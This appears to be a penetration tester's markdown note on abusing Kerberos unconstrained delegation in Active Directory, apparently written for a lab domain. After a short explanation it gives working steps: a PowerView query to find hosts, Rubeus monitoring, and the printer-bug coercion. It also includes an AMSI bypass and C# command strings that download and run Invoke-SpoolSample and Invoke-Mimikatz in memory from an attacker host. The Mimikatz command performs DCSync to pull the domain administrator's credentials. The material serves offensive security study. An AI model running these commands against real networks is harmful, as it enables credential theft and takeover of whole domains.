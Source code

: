 # Unconstrained Delegation

## What it is

Ref: (https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)

- Happens in the cases where there is a frontend service host (Host A) and a backend service host (Host B)
- When a user wants to access a service, a TGS specific to that service and that user is issued by the KDC
- But the user cant use the TGS for the frontend service to authenticate to the backend service
- To solve this problem, the frontend service is configured for unconstrained delegation which designates Host A as a host that can forward TGS and authenticate on behalf of the user to ANY SERVICE
- Typically, services may be misconfigured with this so worth checking!

## How to check if we can do this

1) Via Bloodhound (CoerceToTGT)
2) Via Powerview (Any non-DC host with the TRUSTED_FOR_DELEGATION in its UAC attribute)
```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol.dnshostname | format-list
```

## Exploiting it

1) After identifying the host, gain local admin access on that host
2) Using meterpreter or potatos or print spooler, elevate yourself to NT Authority/SYSTEM
3) open Administrator cmd prompt and execute Rubeus in monitoring mode
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```
4) Use any domain credential that you have to log in to a host and trigger the printer bug through the following:

a) Via SpoolSample.exe


b) Via Invoke-Spoolsample

- Grab the script from here (https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)

- Use the Custom Runspace to bypass AMSI, download the script in memory from your apache2 server, and then execute it with the following commands (within the runspace)

First Arg to -Command is the DC hostname, Second Arg is the hostname of where your Rubeus is being run on (the unconstrained delegation host)

```csharp
String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/spoolsample.txt') | IEX; Invoke-SpoolSample -Command 'dc03.infinity.com web05.infinity.com'"; 
```



5) Load the DC machine account ticket into your current domain user; and attempt to DCSync

```csharp
// Watch the quotation marks! 
String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/mimikatz.txt') | IEX; Invoke-Mimikatz -Command "`"lsadump::dcsync /domain:infinity.com /user:infinity\\administrator`""";
```

```csharp
String cmdmimi = "lsadump::dcsync /domain:infinity.com /user:infinity\\administrator";

String cmd2 = $"(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/mimikatz.txt') | IEX; Invoke-Mimikatz -Command {cmdmimi} | Out-File -FilePath C:\\windows\\tasks\\dcsync.txt";
```